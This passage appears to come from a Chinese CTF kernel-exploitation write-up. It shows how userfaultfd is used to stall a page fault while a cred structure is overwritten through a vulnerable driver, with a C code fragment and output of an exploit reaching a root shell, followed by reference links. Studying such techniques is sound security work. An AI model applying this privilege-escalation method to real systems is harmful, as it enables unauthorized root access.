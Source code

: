     **使用userfaultfd挂起pagefualt**

    userfaultfd可以允许对于指定的内存内发生的pagefault交由用户处理，因此，将cred和发生pagefault地址间的部分注册，即可挂起poagefault，避免kernel panic。

    set up userfaultfd代码

    ```c
    	// set userfaultfd and overwrite cred
    	unsigned long fault_page, fault_page_length;
    	char *new_mem = (char *) mmap(NULL, MAX_HEAP_AREA, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
    	memcpy(new_mem, mem, SEARCH_SIZE);
    	fault_page = (uint64_t)new_mem + SEARCH_SIZE;
    	fault_page_length = MAX_HEAP_AREA - SEARCH_SIZE;
    	register_userfault(fault_page, fault_page_length);
    
    	write_object(0, new_mem, MAX_HEAP_AREA, -MAX_HEAP_AREA);
    ```

    

    成功提权（一定的几率）

    ```
    ~ $ ./exp 
    [*] Opened device.
    [*] Creds heap Spray done!
    [*] Start to search for creds.
    [*] Find cred at offset 0xa384
    [*] Handler started !
    [*] Get A PageFault.
    [*] Spawn root at process 0 
    /home/pwn # id
    uid=0(root) gid=0 groups=1000
    /home/pwn # whoami
    root
    ```

    

  * 利用userfaultfd机制条件竞争

* 

#### 参考链接

* [Kernel-Pwn从任意地址读写到权限提升](http://p4nda.top/2018/11/07/stringipc/)
* [call_usermodehelper提权变量路径总结](https://www.jianshu.com/p/a2259cd3e79e)
* [userfaultfd机制在Kernel提权中的利用](https://f5.pm/go-71048.html)
* [creds堆喷利用](https://www.anquanke.com/post/id/87225)